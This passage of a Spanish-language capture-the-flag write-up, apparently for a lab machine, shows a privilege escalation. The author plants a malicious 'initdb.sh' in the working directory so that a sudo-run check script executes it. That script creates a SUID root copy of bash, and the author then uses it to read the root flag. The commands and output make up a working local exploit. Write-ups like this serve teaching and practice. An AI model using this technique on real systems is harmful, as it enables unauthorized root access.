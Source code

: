 ```
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Con pgrep verifica si initdb.sh se esta ejecutando, si no lo esta intenta ejecutarlo en el directorio actual.

Ejecuto pgrep -x "initdb.sh" para verificar si se a iniciado, pero no muestra nada, por lo que no se esta ejecutando.

Como el script se ejecuta con sudo y busca `./initdb.sh`, puedo crear un script malicioso en el directorio actual y escalar privilegios.

Creo un directorio `test` en `/tmp` y el archivo initdb.sh con el siguiente comando:

```
#!/bin/bash

cp /bin/bash /tmp/test/cangrejo.sh && chmod u+s /tmp/test/cangrejo.sh
```

Le doy permisos de ejecución:

```
chmod +x initdb.sh
```

Sudo:

```
dvir@headless:/tmp/test$ sudo /usr/bin/syscheck
```

Copia de `/bin/bash` con permisos `SUID` de propietario `root`:

```
dvir@headless:/tmp/test$ ls -l
total 1240
-rwsr-xr-x 1 root root 1265648 Jul 29 17:25 cangrejo.sh
-rwxr-xr-x 1 dvir dvir      83 Jul 29 17:22 initdb.sh
```

```
./cangrejo.sh -p
```

```
cangrejo.sh-5.2# whoami
root
```

flag `root.txt`:

```
cangrejo.sh-5.2# cat /root/root.txt 
1c0a1323174*********************
```

# 🦀
